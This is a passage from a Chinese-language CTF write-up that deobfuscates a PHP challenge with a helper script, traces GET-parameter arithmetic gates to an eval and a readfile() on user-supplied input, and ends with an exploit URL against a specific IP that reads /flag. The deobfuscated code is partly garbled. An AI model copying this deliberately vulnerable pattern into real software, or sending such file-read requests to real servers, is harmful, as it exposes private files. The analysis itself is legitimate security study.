27%29%28zwchpheW%28%27%2F%131%29%18%00%0A%0A%27%29%28zwchpheW%28%276%07%25%07%26%133%07%27%29%2C+%24JhBBrIoo%29%2C+%24JhBBrIoo%29+%3F+zwchpheW%28%27%03%17%0B%3F%3C%174%1C%27%29%28%24JhBBrIoo%5BzwchpheW%28%27%03%2F7%01%2F%095%3C%27%29%5D%29+%3A+%24JhBBrIoo%5D%3B%0Agoto+EjewjkIk%3B%0AjfukEYKH%3A%0Aif+%28zwchpheW%28%273%21%261%04%23%11%1B%27%29%28zwchpheW%28%273%21%261%04%23%11%1B%27%29%28zwchpheW%28%273%21%261%04%23%11%1B%27%29%28%24_GET%5B%24QCgLjrfL%5D%2C+zwchpheW%28%27%11%25%13%1C%2A%2A%0B%1D%27%29%28%24oSlsycCs%2C+%24bbkeygZp%29%29%2C+zwchpheW%28%27%05%2B%11%3D%11%3C5.%27%29%28%24kaXeAUet%2C+zwchpheW%28%27%28%0F+%24%21%28%06%22%27%29%28zwchpheW%28%27.%08%06%1F%11%3A%15%05%27%29%28250%2C+2%29%2C+0%29%29%29%2C+%21zwchpheW%28%27%23%04%0E%1C%3A%006%3C%27%29%28%24_GET%5B%24QCgLjrfL%5D%2C+zwchpheW%28%2773%0A%28%28+2.%27%29%28zwchpheW%28%274%022%24-%167%19%27%29%28zwchpheW%28%27%17%2A5%1B%05%04%04%25%27%29%2C+%24tOpgNMVe%29%2C+%24tOpgNMVe%29+%3F+zwchpheW%28%27%2B%0F%2C%3D%1D%02%26%24%27%29%28%24tOpgNMVe%5BzwchpheW%28%27%12%28%18%238%054%3C%27%29%5D%29+%3A+%24tOpgNMVe%29%29%29+%7B%0A++++zwchpheW%28%27%0D%262%0E%29%28%17%0B%27%29%28%24_GET%5B%24QCgLjrfL%5D%29%3B%0A%7D%0Agoto+gxgDCdEm%3B";
file_put_contents("test03.php",urldecode($a));
file_put_contents("test02.php",urldecode($b));
```

然后模拟运行，将那个函数的结果直接替换掉，如果是闭包的话就自己手动替换了，基本都是些相加相见等于不等于之类的：

```php
<?php
include "test03.php";
$content = file_get_contents("test02.php");
preg_match_all("/zwchpheW\('.*?'\)/s",$content,$matches);
//var_dump($matches);
foreach ($matches[0] as $value){
    $param = str_replace("zwchpheW('","",$value);
    //$param = str_replace("\x0d\x0a","\x0d",$param);
    $param = str_replace("')","",$param);
    $param = str_replace("\'","'",$param);
    //var_dump($param);
    $res = zwchpheW($param);
    var_dump($res);
    if (is_string($res)){
        var_dump($res);
        $content = str_replace($value,$res,$content);
    }
    //var_dump($value);
}
file_put_contents("test02.php",$content);
```

然后就可以开始手工审计了，一步一步的跟，最后审计出来的结果是这样。

先是get传3个参数v1,v2,v3，然后会要求这三个参数相加起来等于多少多少的时候，就可以给参数x1赋值，比如：

```php
$kaXeAUet=$_GET['ZlzF']
$BpbKKhif = $_GET['giVC'];
$ZpSPisLF = $_GET['QHDZ'];

+ + + 794:
$bbkeygZp = $_GET[$kaXeAUet];
```

然后还会有1个if，要求这三个参数加起来等于另外1个值，才可以控制参数x2，否则参数x2的值就是这三个v1,v2,v3加起来的值。

然后goto 到1个switch：

```php
switch ($_GET[$bbkeygZp]) {
    case zwchpheW('( $!("')(zwchpheW('.:')(0, 4), 1):
        $bbkeygZp = gzinflate(�O�IL );
        break;
    case zwchpheW('>$2-,')($GQGQujrU, 2):
        $oSlsycCs = $_GET[$BpbKKhif];
        break;
    case zwchpheW('( $!("')(zwchpheW('.:')(0, 3), 3):
        eval($oSlsycCs);
        break;
    case zwchpheW('>$2-,')($ZJgvhsQL, 4):
        $QCgLjrfL = base64_decode(join(, array(S, W, 1, n, b, 3, Z, E, e, F, c, =)));
        break;
    default:
        break;
}
```

eval是不可控的，我们控制这个`$QCgLjrfL`即可，最后不断的跟进，是`readfile`：

```php
if (zwchpheW('3!&1#')(zwchpheW('3!&1#')(zwchpheW('3!&1#')($_GET[$QCgLjrfL], zwchpheW('%**')($oSlsycCs, $bbkeygZp)), zwchpheW('+=<5.')($kaXeAUet, zwchpheW('( $!("')(zwchpheW('.:')(250, 2), 0))), !strpos($_GET[$QCgLjrfL], zwchpheW('73
(( 2.')(parse_str(IBRY=L2ZsYWc=, $tOpgNMVe), $tOpgNMVe) ? base64_decode($tOpgNMVe[IBRY]) : $tOpgNMVe))) {
    readfile($_GET[$QCgLjrfL]);
}
```

理清之后构造就行：

```
http://123.60.67.19/code/65f5e916c0560f9b79d9ef332e7798ed/?ZlzF=1001&giVC=-207&QHDZ=0&1001=794&794=4&ImgovDxW=/flag
```

